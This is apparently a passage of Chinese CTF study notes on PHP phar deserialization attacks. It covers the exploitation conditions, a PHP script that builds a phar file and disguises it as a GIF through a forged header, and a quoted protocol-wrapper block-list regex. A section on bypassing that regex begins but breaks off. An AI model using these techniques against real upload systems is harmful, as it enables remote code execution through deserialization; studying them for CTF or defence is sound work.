 phar协议要求：

- php大于5.3.0
- 需要将php.ini的参数phar.readonly设置为off

**漏洞利用条件**

1. phar文件要能够上传到服务器端。
2. 要有可用的魔术方法作为“跳板”。
3. 文件操作函数的参数可控，且`:`、`/`、`phar`等特殊字符没有被过滤

#### 将phar伪造成其他格式的文件

如果文件上传界面后端代码会检查文件类型的话，就需要将 phar 文件未造成其他格式文件

由于php识别phar文件是通过其文件头的stub，更确切一点来说是`__HALT_COMPILER();`这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以通过添加任意的文件头+修改后缀名的方式将phar文件伪装成其他格式的文件

>474946383961, .gif, "GIF 89A"
>
>474946383761, .gif, "GIF 87A"

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

![image-20230717012512791](CTF_web.assets/image-20230717012512791.png)

#### 绕过phar关键字检测

```
if (preg_match("/^php|^file|^gopher|^http|^https|^ftp|^data|^phar|^smtp|^dict|^zip/i",$filename){
    die();
}
```

绕过方法
